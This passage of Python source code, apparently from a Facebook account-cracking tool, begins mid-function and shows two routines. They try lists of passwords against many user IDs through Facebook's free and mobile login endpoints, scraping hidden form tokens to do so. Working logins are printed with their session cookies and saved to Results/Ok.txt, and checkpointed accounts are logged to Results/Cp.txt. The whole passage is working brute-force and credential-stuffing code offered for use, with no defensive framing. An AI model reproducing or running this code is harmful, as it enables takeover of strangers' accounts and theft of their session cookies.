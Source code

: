             gaaa = ses.post("https://free.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Ffree.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack Mobile.Facebook.Com
def mobile(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://m.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "m.facebook.com", "referer": "https://m.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://m.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://m.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fm.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass